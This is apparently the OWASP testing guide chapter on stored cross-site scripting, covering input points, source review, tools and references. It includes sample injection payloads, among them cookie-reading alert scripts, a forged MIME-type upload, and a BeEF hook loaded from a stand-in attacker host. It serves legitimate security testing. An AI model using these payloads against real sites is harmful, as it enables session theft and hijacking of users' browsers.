

# Testing for Stored Cross Site Scripting

|ID          |
|------------|
|WSTG-INPV-02|

## Summary

Stored [Cross-site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/) is the most dangerous type of Cross Site Scripting. Web applications that allow users to store data are potentially exposed to this type of attack. This chapter illustrates examples of stored cross site scripting injection and related exploitation scenarios.

Stored XSS occurs when a web application gathers input from a user which might be malicious, and then stores that input in a data store for later use. The input that is stored is not correctly filtered. As a consequence, the malicious data will appear to be part of the web site and run within the user’s browser under the privileges of the web application. Since this vulnerability typically involves at least two requests to the application, this may also called second-order XSS.

This vulnerability can be used to conduct a number of browser-based attacks including:

- Hijacking another user's browser
- Capturing sensitive information viewed by application users
- Pseudo defacement of the application
- Port scanning of internal hosts ("internal" in relation to the users of the web application)
- Directed delivery of browser-based exploits
- Other malicious activities

Stored XSS does not need a malicious link to be exploited. A successful exploitation occurs when a user visits a page with a stored XSS. The following phases relate to a typical stored XSS attack scenario:

- Attacker stores malicious code into the vulnerable page
- User authenticates in the application
- User visits vulnerable page
- Malicious code is executed by the user's browser

This type of attack can also be exploited with browser exploitation frameworks such as [BeEF](https://beefproject.com) and [XSS Proxy](http://xss-proxy.sourceforge.net/). These frameworks allow for complex JavaScript exploit development.

Stored XSS is particularly dangerous in application areas where users with high privileges have access. When the administrator visits the vulnerable page, the attack is automatically executed by their browser. This might expose sensitive information such as session authorization tokens.

## Test Objectives

- Identify stored input that is reflected on the client-side.
- Assess the input they accept and the encoding that gets applied on return (if any).

## How to Test

### Black-Box Testing

The process for identifying stored XSS vulnerabilities is similar to the process described during the [testing for reflected XSS](01-Testing_for_Reflected_Cross_Site_Scripting.md).

#### Input Forms

The first step is to identify all points where user input is stored into the back-end and then displayed by the application. Typical examples of stored user input can be found in:

- User/Profiles page: the application allows the user to edit/change profile details such as first name, last name, nickname, avatar, picture, address, etc.
- Shopping cart: the application allows the user to store items into the shopping cart which can then be reviewed later
- File Manager: application that allows upload of files
- Application settings/preferences: application that allows the user to set preferences
- Forum/Message board: application that permits exchange of posts among users
- Blog: if the blog application permits to users submitting comments
- Log: if the application stores some users input into logs.

#### Analyze HTML Code

Input stored by the application is normally used in HTML tags, but it can also be found as part of JavaScript content. At this stage, it is fundamental to understand if input is stored and how it is positioned in the context of the page. Differently from reflected XSS, the pen-tester should also investigate any out-of-band channels through which the application receives and stores users input.

**Note**: All areas of the application accessible by administrators should be tested to identify the presence of any data submitted by users.

**Example**: Email stored data in `index2.php`

\
*Figure 4.7.2-1: Stored Input Example*

The HTML code of index2.php where the email value is located:

```html
<input class="inputbox" type="text" name="email" size="40" value="aaa@aa.com" />
```

In this case, the tester needs to find a way to inject code outside the `<input>` tag as below:

```html
<input class="inputbox" type="text" name="email" size="40" value="aaa@aa.com"> MALICIOUS CODE <!-- />
```

#### Testing for Stored XSS

This involves testing the input validation and filtering controls of the application. Basic injection examples in this case:

- `aaa@aa.com&quot;&gt;&lt;script&gt;alert(document.cookie)&lt;/script&gt;`
- `aaa@aa.com%22%3E%3Cscript%3Ealert(document.cookie)%3C%2Fscript%3E`

Ensure the input is submitted through the application. This normally involves disabling JavaScript if client-side security controls are implemented or modifying the HTTP request with a web proxy. It is also important to test the same injection with both HTTP GET and POST requests. The above injection results in a popup window containing the cookie values.

> \
> *Figure 4.7.2-2: Stored Input Example*
>
> The HTML code following the injection:
>
> ```html
> <input class="inputbox" type="text" name="email" size="40" value="aaa@aa.com"><script>alert(document.cookie)</script>
> ```
>
> The input is stored and the XSS payload is executed by the browser when reloading the page. If the input is escaped by the application, testers should test the application for XSS filters. For instance, if the string "SCRIPT" is replaced by a space or by a NULL character then this could be a potential sign of XSS filtering in action. Many techniques exist in order to evade input filters (see [testing for reflected XSS](01-Testing_for_Reflected_Cross_Site_Scripting.md)) chapter). It is strongly recommended that testers refer to [XSS Filter Evasion](https://owasp.org/www-community/xss-filter-evasion-cheatsheet) and [Mario](https://cybersecurity.wtf/encoder/) XSS Cheat pages, which provide an extensive list of XSS attacks and filtering bypasses. Refer to the whitepapers and tools section for more detailed information.

#### Leverage Stored XSS with BeEF

Stored XSS can be exploited by advanced JavaScript exploitation frameworks such as [BeEF](https://www.beefproject.com) and [XSS Proxy](http://xss-proxy.sourceforge.net/).

A typical BeEF exploitation scenario involves:

- Injecting a JavaScript hook which communicates to the attacker's browser exploitation framework (BeEF)
- Waiting for the application user to view the vulnerable page where the stored input is displayed
- Control the application user’s browser via the BeEF console

The JavaScript hook can be injected by exploiting the XSS vulnerability in the web application.

**Example**: BeEF Injection in `index2.php`:

```html
aaa@aa.com"><script src=http://attackersite/hook.js></script>
```

When the user loads the page `index2.php`, the script `hook.js` is executed by the browser. It is then possible to access cookies, user screenshot, user clipboard, and launch complex XSS attacks.

> \
> *Figure 4.7.2-3: Beef Injection Example*
>
> This attack is particularly effective in vulnerable pages that are viewed by many users with different privileges.

#### File Upload

If the web application allows file upload, it is important to check if it is possible to upload HTML content. For instance, if HTML or TXT files are allowed, XSS payload can be injected in the file uploaded. The pen-tester should also verify if the file upload allows setting arbitrary MIME types.

Consider the following HTTP POST request for file upload:

```http
POST /fileupload.aspx HTTP/1.1
[…]
Content-Disposition: form-data; name="uploadfile1"; filename="C:\Documents and Settings\test\Desktop\test.txt"
Content-Type: text/plain

test
```

This design flaw can be exploited in browser MIME mishandling attacks. For instance, innocuous-looking files like JPG and GIF can contain an XSS payload that is executed when they are loaded by the browser. This is possible when the MIME type for an image such as `image/gif` can instead be set to `text/html`. In this case the file will be treated by the client browser as HTML.

HTTP POST Request forged:

```html
Content-Disposition: form-data; name="uploadfile1"; filename="C:\Documents and Settings\test\Desktop\test.gif"
Content-Type: text/html

<script>alert(document.cookie)</script>
```

Also consider that Internet Explorer does not handle MIME types in the same way as Mozilla Firefox or other browsers do. For instance, Internet Explorer handles TXT files with HTML content as HTML content. For further information about MIME handling, refer to the whitepapers section at the bottom of this chapter.

### Blind Cross-site Scripting

Blind Cross-site Scripting is a form of stored XSS. It generally occurs when the attacker’s payload is saved on the server/infrstructure and later reflected back to the victim from the backend application. For example in feedback forms, an attacker can submit the malicious payload using the form, and once the backend user/admin of the application views the attacker’s submission via the backend application, the attacker’s payload will get executed. Blind Cross-site Scripting is hard to confirm in the real-world scenario but one of the best tools for this is [XSS Hunter](https://xsshunter.com/).

> Note: Testers should carefully consider the privacy implications of using public or third party services while performing security tests. (See #tools.)

### Gray-Box Testing

Gray-box testing is similar to black-box testing. In gray-box testing, the pen-tester has partial knowledge of the application. In this case, information regarding user input, input validation controls, and data storage might be known by the pen-tester.

Depending on the information available, it is normally recommended that testers check how user input is processed by the application and then stored into the back-end system. The following steps are recommended:

- Use front-end application and enter input with special/invalid characters
- Analyze application response(s)
- Identify presence of input validation controls
- Access back-end system and check if input is stored and how it is stored
- Analyze source code and understand how stored input is rendered by the application

If source code is available (as in white-box testing), all variables used in input forms should be analyzed. In particular, programming languages such as PHP, ASP, and JSP make use of predefined variables/functions to store input from HTTP GET and POST requests.

The following table summarizes some special variables and functions to look at when analyzing source code:

| **PHP**        | **ASP**           |  **JSP**         |
|----------------|-------------------|------------------|
| `$_GET` - HTTP GET variables  | `Request.QueryString` - HTTP GET | `doGet`, `doPost` servlets - HTTP GET and POST |
| `$_POST` - HTTP POST variables| `Request.Form` - HTTP POST | `request.getParameter` - HTTP GET/POST variables |
| `$_REQUEST` – HTTP POST, GET and COOKIE variables | `Server.CreateObject` - used to upload files |
| `$_FILES` - HTTP File Upload variables |

**Note**: The table above is only a summary of the most important parameters but, all user input parameters should be investigated.

## Tools

- [PHP Charset Encoder(PCE)](https://cybersecurity.wtf/encoder/) helps you encode arbitrary texts to and from 65 kinds of character sets that you can use in your customized payloads.
- [Hackvertor](https://hackvertor.co.uk/public) is an online tool which allows many types of encoding and obfuscation of JavaScript (or any string input).
- [BeEF](https://www.beefproject.com) is the browser exploitation framework. A professional tool to demonstrate the real-time impact of browser vulnerabilities.
- [XSS-Proxy](http://xss-proxy.sourceforge.net/) is an advanced Cross-Site-Scripting (XSS) attack tool.
- [Burp Proxy](https://portswigger.net/burp/) is an interactive HTTP/S proxy server for attacking and testing web applications.
- [XSS Assistant](https://www.greasespot.net/) Greasemonkey script that allow users to easily test any web application for cross-site-scripting flaws.
- [OWASP Zed Attack Proxy (ZAP)](https://www.zaproxy.org) is an interactive HTTP/S proxy server for attacking and testing web applications with a built-in scanner.
- [XSS Hunter Portable](https://github.com/mandatoryprogrammer/xsshunter) XSS Hunter finds all kinds of cross-site scripting vulnerabilities, including the often-missed blind XSS.

## References

### OWASP Resources

- [XSS Filter Evasion Cheat Sheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)

### Books

- Joel Scambray, Mike Shema, Caleb Sima - "Hacking Exposed Web Applications", Second Edition, McGraw-Hill, 2006 - ISBN 0-07-226229-0
- Dafydd Stuttard, Marcus Pinto - "The Web Application's Handbook - Discovering and Exploiting Security Flaws", 2008, Wiley, ISBN 978-0-470-17077-9
- Jeremiah Grossman, Robert "RSnake" Hansen, Petko "pdp" D. Petkov, Anton Rager, Seth Fogie - "Cross Site Scripting Attacks: XSS Exploits and Defense", 2007, Syngress, ISBN-10: 1-59749-154-3

### Whitepapers

- [CERT: "CERT Advisory CA-2000-02 Malicious HTML Tags Embedded in Client Web Requests"](https://resources.sei.cmu.edu/library/asset-view.cfm?assetID=496186)
- [Amit Klein: "Cross-site Scripting Explained"](https://courses.csail.mit.edu/6.857/2009/handouts/css-explained.pdf)
- [Gunter Ollmann: "HTML Code Injection and Cross-site Scripting"](http://www.technicalinfo.net/papers/CSS.html)
- [CGISecurity.com: "The Cross Site Scripting FAQ"](https://www.cgisecurity.com/xss-faq.html)
